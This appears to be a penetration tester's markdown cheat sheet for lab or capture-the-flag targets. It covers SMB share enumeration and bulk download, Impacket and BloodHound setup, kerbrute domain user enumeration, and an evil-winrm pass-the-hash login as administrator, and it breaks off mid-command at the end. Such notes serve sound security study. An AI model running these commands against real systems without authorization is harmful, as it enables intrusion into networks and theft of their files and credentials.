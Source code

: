 =================================================================================
# SMB
```
smbclient -L //10.10.10.100 ==  -L to list smb shares
smbclient //10.10.10.100/Replication
smbclient //10.10.10.100/file					# access to Users share file
smbclient -U <username> //<ip>/<share>
smbclient //10.10.10.100/Replication -c 'recurse;ls'		# list everything
./smbmap -R Replication -H 10.10.10.100				# list everything 

enume4linux <ip>						# smb enumeration tool
enume4linux -a <ip>

---
Download everything:
recurse on
prompt off
|mls|
mget *

```
=================================================================================
# Active Directory Attack
```
------------------------------------------------------------------
Installing Impacket

sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ 
sudo pip3 install .
sudo python3 setup.py install

------------------------------------------------------------------
Installing Bloodhound and Neo4j

apt install bloodhound neo4j

------------------------------------------------------------------
Kerbrute (brute force discovery of users, passwords and even password spray)

kerbrute userenum --dc 10.10.40.27 -d THM-AD userlist.txt			# enumerating valid users
-d	domain name
--dc	ip of the domain controller

------------------------------------------------------------------
other tools:
 
evil-winrm -i 10.10.40.27 -u administrator -H <nt hash> (

```
